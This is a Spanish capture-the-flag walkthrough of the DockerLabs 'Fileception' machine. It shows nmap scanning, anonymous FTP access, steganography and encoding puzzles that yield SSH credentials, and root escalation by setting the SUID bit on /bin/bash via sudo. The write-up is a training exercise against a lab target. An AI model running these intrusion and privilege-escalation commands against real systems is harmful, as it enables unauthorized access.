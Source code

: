 # Máquina Fileception

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> [danielprz](https://rubelperez.github.io/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrw-rw-    1 ftp      ftp         75372 Apr 27 02:17 hello_peter.jpg [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 618f9189a70b8e17b7dd38e000045947 (ECDSA)
|_  256 8a152913ecaaf620cac880145605ec3b (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos acceder con el usuario **anonymous** al servicio **ftp**, donde tan solo encontramos una imágen, que nos descargaremos:

```shell
ftp 172.17.0.2
Name (172.17.0.2:albertomarcostic): anonymous
----------------------
230 Login successful.
```

```shell
ftp> ls
----------------------
-rwxrw-rw-    1 ftp      ftp         75372 Apr 27 02:17 hello_peter.jpg
```

```shell
ftp> get hello_peter.jpg
----------------------
226 Transfer complete.
75372 bytes received in 0.00 secs (205.3724 MB/s)
```

Echamos un vistazo a la web principal.
En el código fuente encontramos un comentario con un pista:

![Pasted image 20240427192722](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/eadca9bf-a0b2-4b2a-a6a0-de06d6dfa0e5)

```
@UX=h?T9oMA7]7hA7]:YE+*g/GAhM4
```

--------------
## Explotación

Tras probar con varios tipos como base64,32,etc. Conseguimos decodificar la clave con **base85**.
Podemos usar cualquiera página web.

La clave decodificada es -> "**base_85_decoded_password**"

----------------

Usaremos la herramienta **steghide** para ver si hay algo escondido dentro de la imagen descargada anteriormente:
Nos pide un salvoconducto o contraseña, así que probamos a usar la clave que hemos decodificado antes:

```shell
steghide --extract -sf hello_peter.jpg
Anotar salvoconducto: (introducimos la clave -> base_85_decoded_password)
----------------------------------------------------------------------------
anot los datos extrados e/"you_find_me.txt".
```

Obtenemos un archivo **you_find_me.txt**:

Al abrirlo, encontramos el siguiente contenido:

![Pasted image 20240427200214](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9d5f18d8-6684-4227-bf25-911b2e71bb0c)

Haciendo un poco de búsqueda en google, se trata de un tipo de lenguaje de programación esotérico.
Lo intentamos interpretar con alguna web y obtenemos la siguiente cadena de texto:

![Pasted image 20240427202355](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/864f867b-401c-4417-996a-5bd914ecbfd3)

```
9h889h23hhss2
```

Probamos esta cadena como un directorio de la web pero no funciona. La probamos como el usuario **peter** por **ssh**

```
ssh peter@172.17.0.2
```

Estamos dentro !

------------
## Escalada de privilegios

Al acceder encontramos una nota importante:

```shell
cat nota_importante.txt 
-----------------------------------
NO REINICIES EL SISTEMA!!

HAY UN ARCHIVO IMPORTANTE EN TMP
```

Accedemos al directorio **/tmp** donde hay mas archivos:

```shell
cat recuerdos_del_sysadmin.txt 
------------------------------------------------
Cuando era niño recuerdo que, a los videos, para pasarlos de flv a mp4, solo cambiaba la extensión. Que iluso.
```

Encontramos otro archivo **importante_octopus.odt**
Nos lo descargamos en la máquina atacante con **scp**.

```shell
scp peter@172.17.0.2:/tmp/importante_octopus.odt ./
```

Probamos a cambiarle las extensiones, txt, sh, tar, zip, etc. Para ver como se comporta.
Tras varios intentos, con **zip**, al descomprimirlo, obtenemos varios archivos.

```shell
mv importante_octopus.odt importante_octopus.zip
```

Entre ellos un **leerme-xml**.

```shell
cat leerme.xml
-------------------------------
Decirle a Peter que me pase el odt de mis anécdotas, en caso de que se me olviden mis credenciales de administrador... Él no sabe de Esteganografía, nunca sé lo imaginaria esto.

usuario: octopus
password: ODBoMjM4MGgzNHVvdW8zaDQ=
```

Obtenemos las credenciales del user **octopus**, pero parece que su contraseña es **base64**, así que la decodificamos:

```shell
echo "ODBoMjM4MGgzNHVvdW8zaDQ=" | base64 -d; echo
-----------------------------------------------------
80h2380h34uouo3h4
```

Nos conectamos como el usuario **octopus** por ssh -> **octopus:80h2380h34uouo3h4**

```ssh
ssh octopus@172.17.0.2
```

Ejecutamos **sudo -l** para ver si podemos ejecutar algo como root:

```shell
sudo -l
--------------------
User octopus may run the following commands on 154c6f2b3e10:
    (ALL) NOPASSWD: ALL
    (ALL : ALL) ALL
```

Podemos ejecutar cualquier cosa como root:

```shell
sudo chmod u+s /bin/bash
bash -p
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en la máquina !

